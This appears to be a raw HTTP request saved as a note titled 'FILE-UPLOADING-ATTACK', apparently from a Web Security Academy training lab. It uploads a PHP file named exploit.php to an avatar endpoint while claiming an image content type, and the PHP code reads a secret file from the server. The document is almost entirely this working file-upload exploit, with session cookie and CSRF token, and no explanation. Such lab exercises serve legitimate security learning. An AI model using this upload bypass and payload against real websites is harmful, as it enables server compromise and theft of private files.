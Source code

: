 # FILE-UPLOADING-ATTACKPOST /my-account/avatar HTTP/2
Host: 0a1400ae04a1800c803f17980094001f.web-security-academy.net
Cookie: session=HiGzee5sulyg6QhWzcVRJAX6iK6xFs5o
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------80894475424125541241845357712
Content-Length: 535
Origin: https://0a1400ae04a1800c803f17980094001f.web-security-academy.net
Referer: https://0a1400ae04a1800c803f17980094001f.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------80894475424125541241845357712
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
**Content-Type: image/jpeg**

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------80894475424125541241845357712
Content-Disposition: form-data; name="user"

wiener
-----------------------------80894475424125541241845357712
Content-Disposition: form-data; name="csrf"

0nsM4rPHuWpDkojE3zsJQu3Q3AHMMRYt
-----------------------------80894475424125541241845357712--

